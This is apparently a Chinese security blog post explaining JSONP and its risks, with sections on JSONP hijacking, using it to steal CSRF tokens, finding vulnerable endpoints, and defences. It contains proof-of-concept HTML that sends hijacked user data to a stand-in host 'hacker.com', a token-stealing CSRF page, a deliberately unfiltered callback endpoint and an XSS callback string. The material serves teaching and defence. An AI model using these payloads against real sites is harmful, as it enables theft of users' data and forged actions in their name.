 # jsonp介绍及其安全风险




## 简介

JSONP全称是`JSON with Padding` ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

**JSONP原理：**就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。



比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

原理简介的例子：新建`callback.php`

```php
<?php
    header('Content-type: application/json');
    $callback = $_GET["callback"];
    //json数据
    $json_data = '{"user":"user1111","password":"12345678"}';
    //输出jsonp格式的数据
    echo $callback . "(" . $json_data . ")";
?>

```

新建`test.html`

```html
<!-- test.html -->

<html>
<head>
<title>Test</title>
<meta charset="utf-8">

<script type="text/javascript">
	function fun(obj){
		alert(obj["password"]);
	}
</script>
</head>

<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

访问test.html，页面会执行script，请求`http://127.0.0.1/callback.php?callback=fun`，然后将请求的内容作为参数，执行fun函数，fun函数将请求的内容alert出来。这样我们就实现了通过js操作跨域请求到的资源，绕过了同源策略。

![alert](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220112223611220.png)





## JSONP劫持

> JSONP劫持类似于CSRF漏洞

JSONP使用不当也会造成很多安全问题。

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，Hacker可以自己构造一个页面，诱惑用户去点击（在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上），以此来获取这些信息。



![jsonp漏洞用过程](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220112223806037.png)



POC如：test.html

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
    function fun(obj){
        var myForm = document.createElement("form");
        myForm.action="http://hacker.com/redirect.php";
        myForm.method = "GET";  
        for ( var k in obj) {  
            var myInput = document.createElement("input");  
            myInput.setAttribute("name", k);  
            myInput.setAttribute("value", obj[k]);  
            myForm.appendChild(myInput);  
        }  
        document.body.appendChild(myForm);  
        myForm.submit();  
        document.body.removeChild(myForm);
    }
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

诱导用户去访问此html，会以用户的身份访问`http://localhost/callback.php?callback=fun`,拿到敏感数据，然后执行fun函数，将数据发送给`http://hacker.com/redirect.php`。

然后hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。



## 利用JSONP绕过token防护进行csrf攻击

场景假设：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf_token，然后提交表单，造成csrf漏洞。示例利用代码如下：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。





## JSONP劫持挖掘

首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的)





## 防御

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss





## 参考文章

[jsonp介绍及其安全风险 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/309.html#) 还是这位大佬写得好，小弟基本全是看的他的

[JSONP 劫持原理与挖掘方法 | K0rz3n's Blog](https://www.k0rz3n.com/2019/03/07/JSONP 劫持原理与挖掘方法/)

[JSONP绕过CSRF防护token - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5143)

[分享一个jsonp劫持造成的新浪某社区CSRF蠕虫 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)

[JSONP 安全攻防技术 - 知道创宇 (knownsec.com)](https://blog.knownsec.com/2015/03/jsonp_security_technic/)







---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jsonp%E4%BB%8B%E7%BB%8D%E5%8F%8A%E5%85%B6%E5%AE%89%E5%85%A8%E9%A3%8E%E9%99%A9/  


